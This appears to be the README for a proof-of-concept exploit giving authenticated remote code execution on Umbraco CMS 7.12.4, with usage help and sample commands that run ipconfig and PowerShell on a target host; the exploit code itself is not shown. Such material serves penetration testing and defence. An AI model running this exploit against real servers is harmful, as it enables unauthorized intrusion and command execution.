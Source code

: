 # Umbraco RCE exploit / PoC

> Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution

## Usage

```
$ python exploit.py -h
usage: exploit.py [-h] -u USER -p PASS -i URL -c CMD [-a ARGS]

Umbraco authenticated RCE

optional arguments:
  -h, --help                 show this help message and exit
  -u USER, --user USER       username / email
  -p PASS, --password PASS   password
  -i URL, --host URL         root URL
  -c CMD, --command CMD      command
  -a ARGS, --arguments ARGS  arguments
```

Examples:

```
$ python exploit.py -u admin@example.org -p password123 -i 'http://10.0.0.1' -c ipconfig
$ python exploit.py -u admin@example.org -p password123 -i 'http://10.0.0.1' -c powershell.exe -a '-NoProfile -Command ls'
```

## Reference

This is a better re-write of [EDB-ID-46153](https://www.exploit-db.com/exploits/46153) using arguments and with stdout display.

Tested with python 3.8.
